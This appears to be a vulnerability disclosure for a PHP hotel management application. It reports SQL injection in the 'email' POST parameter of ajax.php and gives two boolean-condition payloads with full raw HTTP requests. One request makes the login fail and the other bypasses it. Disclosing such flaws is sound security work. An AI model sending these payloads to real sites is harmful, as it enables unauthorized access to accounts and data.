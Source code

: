# Multi Language Hotel Management Software v1.0 by Nikhil_B has SQL injection

BUG_Author:hushuo

vendors:https://www.sourcecodester.com/php/15551/multi-language-hotel-management-software-free-download-source-code.html

Vulnerability File: /sparkz/sparkz/ajax.php

POST parameter 'email' exists SQL injection vulnerability

Payload1: email=12' or '7618'='7616&password=32&login=

```
POST /sparkz/sparkz/ajax.php HTTP/1.1
Host: localhost
Content-Length: 54
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/sparkz/sparkz/login.php?loginE
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=hf32uhevelnm5mvoetjhf9ecih
Connection: close

email=12%27+or+%277618%27%3D%277616&password=32&login=
```

Login error

![image](https://github.com/hu1780663664/pic/blob/main/1.png)

Payload2: email=12' or '7618'='7618&password=32&login=

```
POST /sparkz/sparkz/ajax.php HTTP/1.1
Host: localhost
Content-Length: 54
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/sparkz/sparkz/login.php?loginE
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=hf32uhevelnm5mvoetjhf9ecih
Connection: close

email=12%27+or+%277618%27%3D%277618&password=32&login=
```

Login successful

![image](https://github.com/hu1780663664/pic/blob/main/2.png)


